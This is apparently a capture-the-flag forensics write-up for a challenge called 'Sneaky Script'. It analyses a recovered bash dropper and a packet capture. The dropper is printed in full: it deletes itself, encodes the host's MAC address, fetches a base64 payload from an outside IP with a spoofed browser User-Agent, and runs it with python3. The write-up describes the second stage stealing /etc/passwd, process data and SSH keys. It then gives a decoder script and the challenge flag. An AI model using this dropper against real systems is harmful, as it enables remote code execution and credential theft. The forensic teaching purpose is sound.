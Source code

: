 # Sneaky Script

description:

"We recovered a malicious script from a victim environment. Can you figure out
what it did, and if any sensitive information was exfiltrated? We were able to
export some PCAP data from their environment as well."

files:
- pcap
- bash script

```sh
#!/bin/bash

rm -f "${BASH_SOURCE[0]}"

which python3 >/dev/null
if [[ $? -ne 0 ]]; then
    exit
fi

which curl >/dev/null
if [[ $? -ne 0 ]]; then
    exit
fi

mac_addr=$(ip addr | grep 'state UP' -A1 | tail -n1 | awk '{print $2}')

curl 54.80.43.46/images/banner.png?cache=$(base64 <<< $mac_addr) -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36" 2>/dev/null | base64 -d > /tmp/.cacheimg
python3 /tmp/.cacheimg
rm -f /tmp/.cacheimg
```

bash script:
- checks if the user has python and curl, gets the MAC addr, then curls a C2
server (which isn't up)
- the calling home to the C2 server downloads the second stage payload,
which is a python executable

pcap:
- looking at traffic statistics we can see some HTTP. applying a filter, we can
see a GET request to the malicious URL, a 200 OK form the server, and then a POST
request to the /upload endpoint and another 200 OK.
- from this we can assume the second stage python script exfiltrated data
- the GET request to the endpoint includes b64 encoded data
- if this is downloaded to `stage2_b64`, and decoded with `cat stage2_b64 | base64 -d > stage2`
and running `file stage2` reveals it is a python3.6 byte-compiled binary

stage2.pyc:
- use uncompyle6 to decode it to `stage2.py`
- this python script opens `/etc/passwd` and grabs all sans root
- it opens `/proc` and grabs PID executable and cmdline arguments
- opens `/.ssh` and grabs keys
- it then prepares all the data, does some custom encoding, then b64 encodes it
and sends it as a POST request

The POST request data in the wireshark dump is then the encoded exfiltrated data.
Decoding requires reversing how the `stage2.py` encoded it which is in the script below,
and using json prettifier to view it better.

the flag is ultimately in the JSON data `dam{oh_n0_a1l_muh_k3y5_are_g0n3}`


script to decode the b64 data in wireshark dump POST request:

```py
#!/usr/bin/env python3

import base64, json

def decode(data):
    k = b'8675309'

    d = base64.b64decode(data).decode("utf-8")
    d_dec = [ord(c) for c in d]
    decoded = [d_dec[i] ^ k[(i % len(k))] for i in range(len(d_dec))]
  
    decoded_chr = "".join([chr(c) for c in decoded])
    print(f"{decoded_chr=}")

if __name__ == "__main__":
    with open("exfiltrated") as f:
        decode(f.read())
```
